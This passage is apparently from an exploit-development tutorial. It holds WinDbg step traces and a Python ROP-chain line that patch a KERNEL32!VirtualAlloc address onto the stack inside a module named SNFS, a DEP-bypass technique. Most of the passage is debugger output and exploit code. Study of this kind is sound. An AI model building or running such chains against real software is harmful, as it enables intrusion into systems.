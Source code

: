     0:001> p
    eax=100252e0 ebx=42424242 ecx=ffffffe4 edx=00000000 esi=42424242 edi=00669360
    eip=10019c61 esp=019ee33c ebp=019ee2f0 iopl=0         nv up ei pl zr na pe nc
    cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
    SNFS!_set_old_sbh_threshold+0x14:
    10019c61 55              push    ebp
    0:001> p
    eax=100252e0 ebx=42424242 ecx=ffffffe4 edx=00000000 esi=42424242 edi=00669360
    eip=10019c62 esp=019ee338 ebp=019ee2f0 iopl=0         nv up ei pl zr na pe nc
    cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
    SNFS!_set_old_sbh_threshold+0x15:
    10019c62 0310            add     edx,dword ptr [eax]  ds:0023:100252e0={KERNEL32!VirtualAllocStub (76ca4d30)}
    0:001> p
    eax=100252e0 ebx=42424242 ecx=ffffffe4 edx=76ca4d30 esi=42424242 edi=00669360
    eip=10019c64 esp=019ee338 ebp=019ee2f0 iopl=0         nv up ei pl nz na pe nc
    cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000206
    SNFS!_set_old_sbh_threshold+0x17:
    10019c64 58              pop     eax
    0:001> p
    eax=019ee2f0 ebx=42424242 ecx=ffffffe4 edx=76ca4d30 esi=42424242 edi=00669360
    eip=10019c65 esp=019ee33c ebp=019ee2f0 iopl=0         nv up ei pl nz na pe nc
    cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000206
    SNFS!_set_old_sbh_threshold+0x18:
    10019c65 c3              ret
    
    ```
    
5. Finally we write the value in `EDX` which is now our `KERNEL32!VirtualAlloc` address to the location pointed to in `EAX` effectively patching our first address.
    
    ```python
    rop += pack("<L", (0x10021d7c)) # mov dword [eax], edx ; ret  ;
    
    eax=019ee2f0 ebx=42424242 ecx=ffffffe4 edx=76ca4d30 esi=42424242 edi=00669360
    eip=10021d7c esp=019ee340 ebp=019ee2f0 iopl=0         nv up ei pl nz na pe nc
    cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000206
    SNFS!std::basic_streambuf<unsigned short,std::char_traits<unsigned short> >::_Init+0x3f:
    10021d7c 8910            mov     dword ptr [eax],edx  ds:0023:019ee2f0=45454545
    0:001> p
    eax=019ee2f0 ebx=42424242 ecx=ffffffe4 edx=76ca4d30 esi=42424242 edi=00669360
    eip=10021d7e esp=019ee340 ebp=019ee2f0 iopl=0         nv up ei pl nz na pe nc
    cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000206
    SNFS!std::basic_streambuf<unsigned short,std::char_traits<unsigned short> >::_Init+0x41:
    10021d7e c3              ret
    ```
    

Let’s confirm everything is where it should be:

```python
0:001> dds eax L5
019ee2f0  76ca4d30 KERNEL32!VirtualAllocStub
019ee2f4  46464646
019ee2f8  00000000
019ee2fc  48484848
019ee300  00000000
```
